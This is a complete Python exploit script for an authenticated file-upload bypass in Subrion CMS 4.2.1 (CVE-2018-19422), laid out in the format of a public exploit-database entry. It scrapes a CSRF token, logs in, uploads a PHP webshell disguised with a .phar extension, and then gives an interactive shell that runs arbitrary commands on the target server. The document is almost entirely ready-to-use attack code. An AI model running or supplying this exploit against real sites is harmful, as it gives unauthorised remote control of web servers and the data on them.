 EXP
---

    # Exploit Title: Subrion CMS 4.2.1 - File Upload Bypass to RCE (Authenticated)
    # Date: 17/05/2021
    # Exploit Author: Fellipe Oliveira
    # Vendor Homepage: https://subrion.org/
    # Software Link: https://github.com/intelliants/subrion
    # Version: SubrionCMS 4.2.1
    # Tested on: Debian9, Debian 10 and Ubuntu 16.04
    # CVE: CVE-2018-19422
    # Exploit Requirements: BeautifulSoup library
    # https://github.com/intelliants/subrion/issues/801

    #!/usr/bin/python3

    import requests
    import time
    import optparse
    import random
    import string
    from bs4 import BeautifulSoup

    parser = optparse.OptionParser()
    parser.add_option('-u', '--url', action="store", dest="url", help="Base target uri http://target/panel")
    parser.add_option('-l', '--user', action="store", dest="user", help="User credential to login")
    parser.add_option('-p', '--passw', action="store", dest="passw", help="Password credential to login")

    options, args = parser.parse_args()

    if not options.url:
        print('[+] Specify an url target')
        print('[+] Example usage: exploit.py -u http://target-uri/panel')
        print('[+] Example help usage: exploit.py -h')
        exit()

    url_login = options.url
    url_upload = options.url + 'uploads/read.json'
    url_shell = options.url + 'uploads/'
    username = options.user
    password = options.passw

    session = requests.Session()

    def login():
        global csrfToken
        print('[+] SubrionCMS 4.2.1 - File Upload Bypass to RCE - CVE-2018-19422 \n')
        print('[+] Trying to connect to: ' + url_login)
        try:
            get_token_request = session.get(url_login)
            soup = BeautifulSoup(get_token_request.text, 'html.parser')
            csrfToken = soup.find('input',attrs = {'name':'__st'})['value']
            print('[+] Success!')
            time.sleep(1)

            if csrfToken:
                print(f"[+] Got CSRF token: {csrfToken}")
                print("[+] Trying to log in...")

                auth_url = url_login
                auth_cookies = {"loader": "loaded"}
                auth_headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3", "Accept-Encoding": "gzip, deflate", "Content-Type": "application/x-www-form-urlencoded", "Origin": "http://192.168.1.20", "Connection": "close", "Referer": "http://192.168.1.20/panel/", "Upgrade-Insecure-Requests": "1"}
                auth_data = {"__st": csrfToken, "username": username, "password": password}
                auth = session.post(auth_url, headers=auth_headers, cookies=auth_cookies, data=auth_data)

                if len(auth.text) <= 7000:
                    print('\n[x] Login failed... Check credentials')
                    exit()
                else:
                    print('[+] Login Successful!\n')
            else:
                print('[x] Failed to got CSRF token')
                exit()

        except requests.exceptions.ConnectionError as err:
            print('\n[x] Failed to Connect in: '+url_login+' ')
            print('[x] This host seems to be Down')
            exit()

        return csrfToken

    def name_rnd():
        global shell_name
        print('[+] Generating random name for Webshell...')
        shell_name = ''.join((random.choice(string.ascii_lowercase) for x in range(15)))
        time.sleep(1)
        print('[+] Generated webshell name: '+shell_name+'\n')

        return shell_name

    def shell_upload():
        print('[+] Trying to Upload Webshell..')
        try:
            up_url = url_upload
            up_cookies = {"INTELLI_06c8042c3d": "15ajqmku31n5e893djc8k8g7a0", "loader": "loaded"}
            up_headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0", "Accept": "*/*", "Accept-Language": "pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3", "Accept-Encoding": "gzip, deflate", "Content-Type": "multipart/form-data; boundary=---------------------------6159367931540763043609390275", "Origin": "http://192.168.1.20", "Connection": "close", "Referer": "http://192.168.1.20/panel/uploads/"}
            up_data = "-----------------------------6159367931540763043609390275\r\nContent-Disposition: form-data; name=\"reqid\"\r\n\r\n17978446266285\r\n-----------------------------6159367931540763043609390275\r\nContent-Disposition: form-data; name=\"cmd\"\r\n\r\nupload\r\n-----------------------------6159367931540763043609390275\r\nContent-Disposition: form-data; name=\"target\"\r\n\r\nl1_Lw\r\n-----------------------------6159367931540763043609390275\r\nContent-Disposition: form-data; name=\"__st\"\r\n\r\n"+csrfToken+"\r\n-----------------------------6159367931540763043609390275\r\nContent-Disposition: form-data; name=\"upload[]\"; filename=\""+shell_name+".phar\"\r\nContent-Type: application/octet-stream\r\n\r\n<?php system($_GET['cmd']); ?>\n\r\n-----------------------------6159367931540763043609390275\r\nContent-Disposition: form-data; name=\"mtime[]\"\r\n\r\n1621210391\r\n-----------------------------6159367931540763043609390275--\r\n"
            session.post(up_url, headers=up_headers, cookies=up_cookies, data=up_data)

        except requests.exceptions.HTTPError as conn:
            print('[x] Failed to Upload Webshell in: '+url_upload+' ')
            exit()

    def code_exec():
        try:
            url_clean = url_shell.replace('/panel', '')
            req = session.get(url_clean + shell_name + '.phar?cmd=id')

            if req.status_code == 200:
                print('[+] Upload Success... Webshell path: ' + url_shell + shell_name + '.phar \n')
                while True:
                    cmd = input('$ ')
                    x = session.get(url_clean + shell_name + '.phar?cmd='+cmd+'')
                    print(x.text)
            else:
                print('\n[x] Webshell not found... upload seems to have failed')
        except:
            print('\n[x] Failed to execute PHP code...')

    login()
    name_rnd()
    shell_upload()
    code_exec()
